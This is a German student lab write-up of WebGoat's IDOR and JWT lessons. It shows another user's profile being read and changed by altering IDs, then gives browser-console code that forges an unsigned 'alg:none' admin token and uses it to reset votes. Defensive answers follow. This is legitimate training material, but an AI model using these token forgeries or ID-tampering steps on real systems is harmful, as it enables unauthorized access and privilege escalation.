


Auf der Webseite waren nur normale Profildaten wie Name, Farbe und Grösse sichtbar. Im Response waren aber zusätzlich diese zwei Attribute vorhanden:

```text id="0653wl"
role
userId
```

Diese zwei Werte wurden in WebGoat eingetragen. Damit wurde gezeigt, dass der Server mehr Daten zurückgibt, als die Webseite sichtbar anzeigt.




## Schritt 3 – Eigenes Profil über direkte Objekt-ID aufrufen

In dieser Aufgabe musste das eigene Profil nicht mehr nur über den normalen Profil-Endpunkt geöffnet werden, sondern über eine direkte Objekt-Referenz.

Der normale Profil-Request war:

```text
GET /WebGoat/IDOR/profile
```

Aus dem vorherigen Server-Response war die eigene Benutzer-ID sichtbar:

```text
userId: 2342384
```

Da die Anwendung ein REST-ähnliches URL-Muster verwendet, wurde daraus folgender direkter Pfad gebildet:

```text
WebGoat/IDOR/profile/2342384
```

Dieser Pfad wurde in WebGoat eingetragen. Danach zeigte WebGoat das eigene Profil erneut an:

```text
{role=3, color=yellow, size=small, name=Tom Cat, userId=2342384}
```

Damit wurde bestätigt, dass Profile direkt über eine ID in der URL angesprochen werden können. Genau dieses Muster ist wichtig für IDOR, weil ein Angreifer danach versuchen kann, die ID zu verändern und dadurch fremde Profile aufzurufen.




## Schritt 4 – Fremdes Profil anzeigen und verändern

Nachdem das eigene Profil über die direkte Profil-ID aufgerufen werden konnte, wurde die ID verändert. Die eigene ID war:

```text id="8pyvwp"
2342384
```

Danach wurde eine andere ID getestet:

```text id="21amnv"
2342388
```

Über diese ID konnte ein fremdes Profil angezeigt werden:

```text id="umrv0r"
{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}
```

WebGoat bestätigte den Zugriff mit:

```text id="evro91"
Well done, you found someone else's profile
```



Anschliessend wurde dasselbe fremde Profil mit einem `PUT`-Request verändert. Dafür wurde auf der EC2-Instanz folgender Endpunkt verwendet:

```text id="bfhcor"
http://localhost:8080/WebGoat/IDOR/profile/2342388
```

Der Request enthielt neue Werte für das Profil:

```json id="zc7rp0"
{
  "role": 1,
  "color": "red",
  "size": "large",
  "name": "Buffalo Bill",
  "userId": "2342388"
}
```

WebGoat bestätigte die Änderung mit:

```text id="07bqbd"
Well done, you have modified someone else's profile
```

Im Response stand ausserdem:

```text id="9xc6bs"
lessonCompleted: true
```

Damit wurde gezeigt, dass ein eingeloggter Benutzer nicht nur ein fremdes Profil lesen, sondern auch verändern konnte. Das ist ein IDOR-Problem, weil der Server nicht korrekt geprüft hat, ob der Benutzer `tom` das Profil von `Buffalo Bill` bearbeiten darf.



## Schriftliche Antworten

### Warum reicht es nicht, eine Ressource einfach nicht zu verlinken?

Es reicht nicht, eine Ressource nur nicht zu verlinken, weil sie trotzdem direkt über die URL erreichbar sein kann. Wenn ein Angreifer das URL-Muster kennt oder errät, kann er die Ressource trotzdem aufrufen.

In dieser Aufgabe war das eigene Profil über folgende ID erreichbar:

```text
2342384
```

Durch das Ändern der ID auf:

```text
2342388
```

konnte ein fremdes Profil angezeigt werden. Das zeigt, dass „nicht sichtbar“ nicht gleich „geschützt“ bedeutet. Das nennt man Security through Obscurity.

### Wie hätte die Applikation den IDOR-Angriff verhindern können?

Die Applikation hätte serverseitig prüfen müssen, ob der eingeloggte Benutzer wirklich Zugriff auf die angeforderte Profil-ID hat.

Zum Beispiel:

```text
Ist der eingeloggte Benutzer tom wirklich Eigentümer von Profil 2342388?
```

Wenn nein, müsste der Server die Anfrage ablehnen, zum Beispiel mit:

```text
403 Forbidden
```

Diese Prüfung muss auf dem Server passieren. Es reicht nicht, Buttons oder Links im Frontend auszublenden.

### Was ist der Unterschied zwischen horizontaler und vertikaler Privilegienerweiterung?

Bei horizontaler Privilegienerweiterung greift ein Benutzer auf Daten eines anderen Benutzers mit ungefähr gleicher Rolle zu. Beispiel: Benutzer `tom` sieht oder verändert das Profil von `Buffalo Bill`.

Bei vertikaler Privilegienerweiterung erhält ein Benutzer höhere Rechte, zum Beispiel normale Benutzerrechte zu Admin-Rechten.

Dieses IDOR-Beispiel zeigt hauptsächlich eine horizontale Privilegienerweiterung, weil `tom` auf das Profil eines anderen Benutzers zugreifen und es verändern konnte.

### Welche OWASP Top 10 Kategorie 2025 beschreibt Broken Access Control?

Broken Access Control gehört in der OWASP Top 10:2025 zur Kategorie:

```text
A01:2025 – Broken Access Control
```

Diese Kategorie steht auf Platz 1, weil Zugriffskontrollprobleme sehr häufig vorkommen und schwere Folgen haben können. Ein Angreifer kann dadurch fremde Daten lesen, verändern oder Funktionen ausführen, für die er eigentlich keine Berechtigung hat.

## Schritt 2 – JWT manipulieren und Votes zurücksetzen

Über das Benutzer-Menü wurde ein gültiger Benutzer (`Jerry`) gewählt und der ausgegebene Token auf jwt.io dekodiert. Im Header stand `alg: HS512`, im Payload `user: Jerry` und `admin: false`. Das Feld `admin` musste auf `true` gesetzt werden.



Der Angriff nutzt, dass der Server die Signatur nicht prüft (`alg:none`). Header und Payload wurden in der Browser-Konsole (F12) mit `btoa()` Base64url-kodiert (Padding `=` entfernt):

```js
btoa('{"alg":"none","typ":"JWT"}').replace(/=/g,'').replace(/\+/g,'-').replace(/\//g,'_')
// → eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

btoa('{"user":"admin","admin":true}').replace(/=/g,'').replace(/\+/g,'-').replace(/\//g,'_')
// → eyJ1c2VyIjoiYWRtaW4iLCJhZG1pbiI6dHJ1ZX0
```

Beide Teile wurden mit einem Punkt verbunden, die Signatur leer gelassen (mit Punkt am Ende). Der manipulierte Token:

```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJhZG1pbiI6dHJ1ZX0.
```

Beim ersten Versuch kam `Only an admin user can reset the votes`. Im Network-Tab waren **zwei** `access_token`-Cookies sichtbar, eines noch mit `admin:false`. Die alten Cookies wurden gelöscht und nur der manipulierte Token gesetzt, danach der Reset ausgelöst:

```js
["/", "/WebGoat", "/WebGoat/JWT"].forEach(p =>
  document.cookie = "access_token=; path=" + p + "; expires=Thu, 01 Jan 1970 00:00:00 GMT");
localStorage.removeItem('access_token');

var tok = "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJhZG1pbiI6dHJ1ZX0.";
document.cookie = "access_token=" + tok + "; path=/";

fetch('JWT/votings', { method: 'POST', credentials: 'include' })
  .then(r => r.text()).then(t => console.log(t));
```

Danach wurde der Benutzer als Administrator erkannt und WebGoat zeigte die grüne Bestätigung.



## Schritt 3 – Code Review

`parseClaimsJws()` prüft die Signatur → bei `alg:none` wirft es eine Exception (Zeile 12). `parse()` prüft die Signatur nicht → der Payload wird gelesen, `admin:true` greift, `removeAllUsers()` wird aufgerufen (Zeile 7). Die Schwachstelle ist `parse()` statt `parseClaimsJws()`.

## Schriftliche Antworten

**1. Warum ist `"alg":"none"` ein Sicherheitsproblem?**
Der Token ist unsigniert. Prüft der Server die Signatur nicht, kann jeder den Payload (z. B. `admin:true`) fälschen und sich als Admin ausgeben.

**2. Was bedeutet Base64url für sensible Daten?**
Base64url ist keine Verschlüsselung. Jeder mit dem Token kann den Payload lesen. Deshalb gehören keine Passwörter oder Geheimnisse in den Payload; Vertraulichkeit über TLS/JWE.

**3. Drei Schutzmassnahmen:**
Algorithmus-Whitelist (kein `none`), serverseitige Signaturprüfung (`parseClaimsJws`), kurze Ablaufzeiten (`exp`).

**4. OWASP Top 10 (2021):**
A07:2021 – Identification and Authentication Failures

## Abgabe F

- jwt.io-Screenshot Original-Token → Abbildung 1
- Manipulierter Token: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJhZG1pbiI6dHJ1ZX0.`
- Grüne Bestätigung → Abbildung 2
- Schriftliche Antworten → siehe oben
